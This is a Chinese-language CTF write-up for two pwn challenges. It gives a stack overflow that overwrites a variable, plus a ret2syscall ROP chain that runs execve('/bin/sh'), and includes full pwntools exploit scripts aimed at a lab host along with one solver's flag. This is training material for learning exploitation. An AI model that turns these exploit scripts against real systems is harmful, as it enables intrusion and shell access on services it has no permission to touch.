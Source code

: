 # 第33题、`栈溢出`分析及解决方案
pwn入门题，栈溢出覆盖`v3`的值即可

## 解题脚本
```python
from pwn import *

host = '10.12.153.73'
port = 10652
p = remote(host, port)

p.sendlineafter(b"Enter your name:", b"111")
payload = b'~' * 248 + p64(20150972)
p.sendlineafter(b"Enter your comment:", payload)
p.interactive()

# flag是动态生成的，每个人flag都不一样
# 我的flag：vmc{6i9rGAzU69RJ3quOzedbOKly5VyQ4HfD}
```

# 第34题、`ret2syscall`分析及解决方案
## **解题思路**：
本题需要通过构造 ROP 链实现 `return to syscall`，利用程序中的 `syscall` 指令完成特定系统调用（如 `execve`）。具体步骤如下：

1. **确定系统调用号和参数**：  
   对于 `execve("/bin/sh", NULL, NULL)`：
   - **系统调用号**：`rax = 59`（在 x86-64 架构下）。
   - **参数**：`rdi = "/bin/sh"`，`rsi = 0`，`rdx = 0`。
   
2. **凑出参数**：  
   通过寻找程序或二进制中的 **ROP gadgets** 来加载寄存器：
   - **设置 `rax`**：找到可以设置 `rax` 的 gadget，例如 `pop rax; ret`，将其设置为 59。
   - **设置 `rdi`**：找到 `pop rdi; ret` gadget，加载指向字符串 `/bin/sh` 的地址。
   - **设置 `rsi` 和 `rdx`**：找到类似 `pop rsi; pop rdx; ret` 的 gadget，分别加载 0。
   
3. **跳转到 syscall**：  
   寻找 `syscall` 指令地址（一般通过静态分析或工具如 `ROPgadget` 查找），将其放到 ROP 链末尾。

最终通过这些操作构造一个完整的 ROP 链，劫持程序控制流，完成 `execve` 系统调用，实现调用 `/bin/sh` 的目标。


## 解题脚本
```python
from pwn import *

host = '10.12.153.73'
port = 10662
p = remote(host, port)

pop_rax = 0x40117e
pop_rdi = 0x401180
pop_rsi_rdx = 0x401182
syscall = 0x401185
sh_addr = 0x404040

payload = b'~'*72
payload += p64(pop_rdi) + p64(sh_addr)
payload += p64(pop_rax) + p64(59)
payload += p64(pop_rsi_rdx) + p64(0) + p64(0)
payload += p64(syscall)
p.sendlineafter(b"Can you make a syscall?\n", payload)
```